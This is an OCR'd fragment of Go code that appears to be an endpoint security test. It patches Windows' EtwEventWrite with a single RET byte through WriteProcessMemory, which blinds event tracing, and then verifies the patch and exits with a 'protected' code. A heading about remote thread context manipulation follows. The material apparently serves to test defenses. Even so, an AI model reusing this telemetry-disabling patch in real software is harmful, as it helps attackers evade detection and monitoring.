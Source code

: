 ```go
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory for ETW patch: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write patch to memory
	patch := []byte{0xC3} // RET instruction to bypass function
	copy((*(*[1 << 20]byte)(unsafe.Pointer(mem)))[:], patch)

	// patch EtwEventWrite
	err = windows.WriteProcessMemory(windows.CurrentProcess(), etwEventWrite.Addr(), &patch[0], uintptr(len(patch)), nil)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to patch EtwEventWrite: %s", err))
		Endpoint.Stop(1) // ERROR
	}
}

func verifyMemoryPatch(procHandle windows.Handle, remoteAddr uintptr, expectedData []byte) {
	buffer := make([]byte, len(expectedData))
	var read uint32
	err := windows.ReadProcessMemory(procHandle, remoteAddr, &buffer[0], uint32(len(buffer)), &read)
	if err != nil || read != uint32(len(buffer)) || !compareBuffers(buffer, expectedData) {
		Endpoint.Say("[-] Memory patch verification failed")
		Endpoint.Stop(1) // ERROR
	}
	Endpoint.Say("[+] Memory patch verification succeeded")
}

func compareBuffers(buf1, buf2 []byte) bool {
	if len(buf1) != len(buf2) {
		return false
	}
	for i := range buf1 {
		if buf1[i] != buf2[i] {
			return false
		}
	}
	return true
}

func cleanup() {
	Endpoint.Say("[+] Cleanup completed successfully")
	Endpoint.Stop(100) // PROTECTED
}
```

# **remote thread context manipulation**
